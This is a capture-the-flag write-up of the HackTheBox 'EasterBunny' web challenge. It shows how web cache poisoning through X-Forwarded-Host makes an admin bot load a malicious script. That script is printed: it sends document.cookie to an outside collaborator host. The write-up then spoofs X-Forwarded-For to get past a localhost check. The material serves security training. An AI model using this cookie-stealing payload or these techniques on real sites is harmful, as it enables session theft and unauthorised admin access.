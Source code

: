 ```yaml
---
layout: single
title: EasterBunny
excerpt: "It's that time of the year again! Write a letter to the Easter bunny and make your wish come true! But be careful what you wish for because the Easter bunny's helpers are watching!"
date: 2022-8-28
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - web
tags:  
  - web cache poisoning
  - cross site scripting
  - ip bypass
  - resource hijacking
---
```



It's that time of the year again! Write a letter to the Easter bunny and make your wish come true! But be careful what you wish for because the Easter bunny's helpers are watching! <br>

<h4 align="center">
<img src="https://user-images.githubusercontent.com/45040001/187103435-e7a41ec1-67d8-491a-9572-a340b96f265e.png">
</h4>


The EasterBunny is a easy challenge from hackthebox where you can learn a lot from it. Lets explain little bit the steps but with words, the first step is to identify web cache poisoning vulnerability and follow [web cache poisoning](https://portswigger.net/research/practical-web-cache-poisoning) methodology.
<br>
<br>
Let's start where the flag is stored.. The flag is stored at the 3rd letter which if you are not an admin you can't see and you will get an error message. Our steps is to be authenticated like a admin and get the flag.

## WCP Methodology
![image](https://user-images.githubusercontent.com/45040001/187235119-7f8f04e9-1a0e-4899-b623-109aae0d0ceb.png)

### Detect unkeyed input
We can detect & inject into cache a random string just using `X-Forwarded-Host` HTTP Header. Using this header we can perform a xss attack to steal some cookies from the user in our situation from `bot.js`.<br>
![detect_unkeyd_input](https://user-images.githubusercontent.com/45040001/187235463-af6684d1-b75f-422d-b08f-7515db78026a.png)
<br>
So we can see our unkeyed input injects 3 attributes and they are:
- /static/main.css
- `<base href="unkeyed input:port/static" />`
- /static/viewletter.js

When you see a javascript file like the `viewletter.js` immediately you think how you can perform a xss attack right?

![unkeyd_input](https://user-images.githubusercontent.com/45040001/187235510-121c99c8-0160-463d-b4e2-c95af06b362a.png)

![viewletter_javascript](https://user-images.githubusercontent.com/45040001/187235528-15b5cbc5-faea-4430-bef9-f7891538de51.png)

## Get prepared for the attack
For exploitation part first of all we need a HTTP server(free solution ngrok) and create a directory tree like that:
![187313837-93762db5-ebfc-4c99-9f69-132ce594b72c](https://user-images.githubusercontent.com/45040001/188494846-ad18b497-7d7c-4180-b1be-06d2092d45ea.png)
<br>
And the most important our malicious `viewletter.js` hosted in our http server where with this script we can steal the auth token and get the flag.
```javascript
//viewletter.js
fetch('http://4w1j76r5ydqthsa2yt357tr45vbmzb.burpcollaborator.net/', {
		    method: 'POST',
		    body: document.cookie
		    });
```
The challenge source code has a file called `authorisation.js` where somebody can see how `admin`  authorization works.<br>
So if someone wants to be authenticated like a admin he must be from localhost and he must know the `authSecret` which is a random value.
```javascript
const authSecret = require('crypto').randomBytes(69).toString('hex');

const isAdmin = (req, res) => {
  return req.ip === '127.0.0.1' && req.cookies['auth'] === authSecret;
};

module.exports = {
  authSecret,
  isAdmin,
};
```
So far so good.. But how will get the `authSecret` from admin? we should steal the cookies from him(or from `bot.js`)
```javascript
//part from bot.js
await page.setCookie({
            name: 'auth',
            value: authSecret,
            domain: '127.0.0.1',
        });
```

Now lets take a look how the bot visiting works. At source code of `routes.js` in the `/submit` route we can see the bot visit the last inserted letter but with a little bit different host, pay attention at `127.0.0.1`
```javascript
//part of routes.js
botVisiting = true;
await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);
botVisiting = false;
```

## Attack

So we retreive a lot of informations and they are:
- we find unkeyed inputs for web cache poisoning attack
- we have to poison the last inserted id(last submited letter)
- we have to steal the `authtoken`
- and grab the flag

First step is to setup our HTTP server with all files & directories included
![tt](https://user-images.githubusercontent.com/45040001/188495101-735dd790-a852-48a2-ad49-ec277bba5999.png)

<br>

Right now we are ready to start the whole attack step by step. Fist of all we need to know how many letters are saved in database to inject the last letter `/letters?id=${inserted.lastID}` to find how many letters are seved we can send just a GET requests at `/message/3` and you will get a response with the message of the letter and the counters of the letters. 

So at my situation the last letter is 16 so i have to inject the 17 letter. <br>
Inject values is:
- GET /letters?id=17
- HOST: 127.0.0.1 | because of this piece of code `await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);`
- X-Forwarded-Host: your-ngrok-ip.com

![web_poisoning](https://user-images.githubusercontent.com/45040001/187318535-9fc0269b-fac7-46a6-bbf9-3f048cedcd05.png)

Send the injection requests and instantly we have to submit a new letter and this letter will be injected .
![submit_new_letter](https://user-images.githubusercontent.com/45040001/187318584-250a390e-745c-4d8f-b3e1-7f5560ca3c8c.png)


after a few seconds we will successfully get the admin secret(authtoken) in our burpcollaborator.
![auth_cookie](https://user-images.githubusercontent.com/45040001/187318627-f3192d7b-3d86-4010-8e6e-0c298ca62a65.png)

The next step is to bypass localhost restriction and i do that with `X-Fowarded-For` HTTP Header as i show below.

![get_flag_1](https://user-images.githubusercontent.com/45040001/187318708-ded902f8-0e25-4926-897e-8b185b125da4.png)

[ip bypass headers](https://gist.githubusercontent.com/kaimi-/6b3c99538dce9e3d29ad647b325007c1/raw/339dad3040fd1a967588edf341eb72b033a9d9fe/gistfile1.txt) <br>

![get_flag_2](https://user-images.githubusercontent.com/45040001/187318715-5c3adc65-87fd-4c8f-ba4f-b9ee3676de8b.png)

![correct_payload](https://user-images.githubusercontent.com/45040001/187318812-fb0b7c39-bb01-4797-8f2d-690a260b33d3.png)

grab the flag. <br>
![final_flag](https://user-images.githubusercontent.com/45040001/187318733-85d968a5-fe2a-43b5-b121-949d8528c19f.png)



